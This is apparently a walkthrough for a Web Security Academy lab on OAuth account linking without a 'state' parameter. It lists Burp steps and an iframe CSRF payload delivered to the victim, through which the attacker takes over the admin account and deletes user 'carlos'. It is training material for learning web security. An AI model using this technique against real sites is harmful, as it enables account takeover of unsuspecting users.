 ```bash
# You can log in to your own accounts using the following credentials:

    # Blog website account: wiener:peter
    # Social media profile: peter.wiener:hotdog

Login as wiener:peter
Click "Attach a social profile"
Login as peter.wiener:hotdog
Go to: HTTP history
Find:

GET /auth/3pGJ1JE69cKmZ61qoIpqS HTTP/1.1

Cookie: _interaction_resume=3pGJ1JE69cKmZ61qoIpqS; _session=NB0EFoeRmlkBcwXEYfK-D; _session.legacy=NB0EFoeRmlkBcwXEYfK-D

No 'state' parameter
Go to:

https://ac671f391e9a7f35c07e8f3c00e200cf.web-security-academy.net/my-account?id=wiener

Intercept is on
Click "Attach a social profile"
Forward once (or until)
Find:

GET /oauth-linking?code=Y6Buw0_6mQ5rjZZapyrFe7AGJ7qamX6LiOfzA8H2ZSj HTTP/1.1

Right-click the request -> Copy URL
Drop request
Intercept is off
Hit "Go back one page"
Go to: "Go to exploit server"

Body:

<iframe src="https://ac671f391e9a7f35c07e8f3c00e200cf.web-security-academy.net/oauth-linking?code=k8H2H4Bsf-idQ_mw20DPQ7sG6XJwWYkHU2udYU8pA2l"></iframe>

Store
Deliver exploit to victim
Go to:

https://ac671f391e9a7f35c07e8f3c00e200cf.web-security-academy.net/my-account?id=wiener

Logout
Click "My account"
Click "Login with social media"
Go to: "Admin panel"
Delete username "carlos"

```
